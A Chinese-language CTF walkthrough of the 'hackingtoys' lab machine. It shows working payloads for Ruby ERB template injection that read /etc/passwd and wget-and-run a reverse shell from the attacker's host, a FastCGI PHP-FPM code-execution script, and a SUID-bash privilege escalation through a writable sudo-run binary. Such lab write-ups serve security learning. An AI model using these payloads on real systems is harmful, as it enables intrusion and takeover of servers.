








## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali/hackingtoys  
❯ nmap 192.168.55.10 -sV -A -p-

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 e7:ce:f2:f6:5d:a7:47:5a:16:2f:90:07:07:33:4e:a9 (ECDSA)
|_  256 09:db:b7:e8:ee:d4:52:b8:49:c3:cc:29:a5:6e:07:35 (ED25519)
3000/tcp open  ssl/ppp?
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=FR
| Not valid before: 2024-05-20T15:36:20
|_Not valid after:  2038-01-27T15:36:20
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.0 400 Bad Request
|     Content-Length: 930
|     Puma caught this error: Invalid HTTP format, parsing fails. Are you trying to open an SSL connection to a non-SSL Puma? (Puma::HttpParserError)
|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/client.rb:268:in `execute'
|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/client.rb:268:in `try_to_finish'
|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/server.rb:298:in `reactor_wakeup'
|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/server.rb:248:in `block in run'
|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/reactor.rb:119:in `wakeup!'
|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/reactor.rb:76:in `block in select_loop'
|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/reactor.rb:76:in `select'
|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/reactor.rb:76:in `select_loop'
|     /usr/loc
|   GetRequest: 
|     HTTP/1.0 403 Forbidden
|     content-type: text/html; charset=UTF-8
|     Content-Length: 5702
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8" />
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta name="turbo-visit-control" content="reload">
|     <title>Action Controller: Exception caught</title>
|     <style>
|     body {
|     background-color: #FAFAFA;
|     color: #333;
|     color-scheme: light dark;
|     supported-color-schemes: light dark;
|     margin: 0px;
|     body, p, ol, ul, td {
|     font-family: helvetica, verdana, arial, sans-serif;
|     font-size: 13px;
|     line-height: 18px;
|     font-size: 11px;
|     white-space: pre-wrap;
|     pre.box {
|     border: 1px solid #EEE;
|     padding: 10px;
|     margin: 0px;
|     width: 958px;
|     header {
|     color: #F0F0F0;
|     background: #C00;
|_    padding:
```

查看**3000**端口服务，是**Ruby on rails**



## SSTI

- [关于Ruby模板的那些事 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/367143.html)

发现消息提示框框中存在模板注入



利用模板，记得要**URLencode**

```
<%= 7 * 7 %>
<%= File.open('/etc/passwd').read %>
```



```
<%= system('wget 192.168.55.4/shell') %>
<%= system('bash shell') %>
```

成功得到反弹**shell**



## Own dodi

查看内网端口

```
lidia@hacktoys:~$ ss -tuln
Netid         State          Recv-Q         Send-Q                 Local Address:Port                 Peer Address:Port         Process         
udp           UNCONN         0              0                            0.0.0.0:68                        0.0.0.0:*                            
tcp           LISTEN         0              1024                         0.0.0.0:3000                      0.0.0.0:*                            
tcp           LISTEN         0              128                          0.0.0.0:22                        0.0.0.0:*                            
tcp           LISTEN         0              511                        127.0.0.1:80                        0.0.0.0:*                            
tcp           LISTEN         0              4096                       127.0.0.1:9000                      0.0.0.0:*                            
tcp           LISTEN         0              128                             [::]:22                           [::]:*    
```

将其转出来

```
[root@kali] /home/kali/Desktop/penelope (main) 
❯ ssh -i ~/.ssh/id_rsa lidia@192.168.55.10 -L 80:127.0.0.1:80 -L 9000:127.0.0.1:9000
```

**80**端口好像没有什么东西，因为在**/var/www/html**里面能看到

PHP-FPM默认监听9000端口，如果这个端口可以被我们直接访问到，则我们可以自己构造fastcgi协议，和fpm进行通信。



```
lidia@hacktoys:~$ cat /etc/apache2/sites-enabled/fastcgi.conf
<VirtualHost 127.0.0.1:80>
    ServerAdmin webmaster@localhost
    DocumentRoot /var/www/html

    <Directory /var/www/html>
        Options +ExecCGI
        AddHandler fcgid-script .fcgi
        FCGIWrapper /usr/lib/cgi-bin/php-cgi .php
        DirectoryIndex index.php index.html
        AllowOverride All
        Require all granted
    </Directory>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
```

因此可以参考：[9000 - Pentesting FastCGI - HackTricks](https://book.hacktricks.wiki/en/network-services-pentesting/9000-pentesting-fastcgi.html?highlight=9000#basic-information)

```
lidia@hacktoys:~$ cat a.sh 
#!/bin/bash

PAYLOAD="<?php echo '<!--'; system('whoami'); echo '-->';"
FILENAMES="/var/www/html/index.php" # Exisiting file path

HOST=$1
B64=$(echo "$PAYLOAD"|base64)

for FN in $FILENAMES; do
    OUTPUT=$(mktemp)
    env -i \
      PHP_VALUE="allow_url_include=1"$'\n'"allow_url_fopen=1"$'\n'"auto_prepend_file='data://text/plain\;base64,$B64'" \
      SCRIPT_FILENAME=$FN SCRIPT_NAME=$FN REQUEST_METHOD=POST \
      cgi-fcgi -bind -connect $HOST:9000 &> $OUTPUT

    cat $OUTPUT
done
```



成功执行了命令

## Root

```
dodi@hacktoys:~$ sudo -l
Matching Defaults entries for dodi on hacktoys:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User dodi may run the following commands on hacktoys:
    (ALL : ALL) NOPASSWD: /usr/local/bin/rvm_rails.sh
dodi@hacktoys:~$ cat /usr/local/bin/rvm_rails.sh 
#!/bin/bash
export rvm_prefix=/usr/local
export MY_RUBY_HOME=/usr/local/rvm/rubies/ruby-3.1.0
export RUBY_VERSION=ruby-3.1.0
export rvm_version=1.29.12
export rvm_bin_path=/usr/local/rvm/bin
export GEM_PATH=/usr/local/rvm/gems/ruby-3.1.0:/usr/local/rvm/gems/ruby-3.1.0@global
export GEM_HOME=/usr/local/rvm/gems/ruby-3.1.0
export PATH=/usr/local/rvm/gems/ruby-3.1.0/bin:/usr/local/rvm/gems/ruby-3.1.0@global/bin:/usr/local/rvm/rubies/ruby-3.1.0/bin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/usr/local/rvm/bin
export IRBRC=/usr/local/rvm/rubies/ruby-3.1.0/.irbrc
export rvm_path=/usr/local/rvm
exec /usr/local/rvm/gems/ruby-3.1.0/bin/rails "$@"
```

注意到这个目录，之前**lidia**是可以写入的



因此可以修改脚本内容

```
lidia@hacktoys:/usr/local/rvm/gems/ruby-3.1.0/bin$ mv rails rails.bak
lidia@hacktoys:/usr/local/rvm/gems/ruby-3.1.0/bin$ echo 'chmod u+s /usr/bin/bash' > rails
lidia@hacktoys:/usr/local/rvm/gems/ruby-3.1.0/bin$ chmod +x rails

dodi@hacktoys:~$ sudo /usr/local/bin/rvm_rails.sh 
```



## Summary

`User`：**Ruby**模板注入拿到**lidia**，通过内网端口的**FastCGI**漏洞拿到**dodi**

`Root`：通过**lidia**修改脚本内容，即可提权。
